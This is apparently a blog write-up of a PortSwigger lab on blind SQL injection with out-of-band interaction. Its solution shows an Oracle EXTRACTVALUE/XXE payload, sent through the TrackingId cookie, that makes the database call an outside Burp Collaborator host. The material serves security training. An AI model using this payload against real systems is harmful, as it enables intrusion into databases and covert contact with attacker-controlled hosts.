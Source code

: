 ```yaml
---
author: Nithissh S
pubDatetime: 2024-09-11T15:22:00Z
modDatetime: 2024-09-11T09:12:47.400Z
title: Blind SQL injection with out-of-band interaction
slug: sqli-portswigger-lab-15
featured: false
draft: false
tags:
  - BSCP
  - SQL Injection
description:
  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain. To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Solution 

The Particular lab is utilising oracle database and we can able to find this using the `sqlmap` and I don't wanna go further with it 

Going through the cheatsheet, In order to achieve the DNS lookup off particular server we are controlling.. this payload will be useful in it 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Let's send the above payload through `TrackingId` parameter inside `Cookie` and when we send the request.. As it response with status code of `200` 

![](../../assets/images/bscp/sqli/sqli54.png)

Checking the Burp collaborator, we have recieved few DNS pingbacks 

![](../../assets/images/bscp/sqli/sqli55.png)

Our endgoal is acheived and lab is solved 

![](../../assets/images/bscp/sqli/sqli56.png)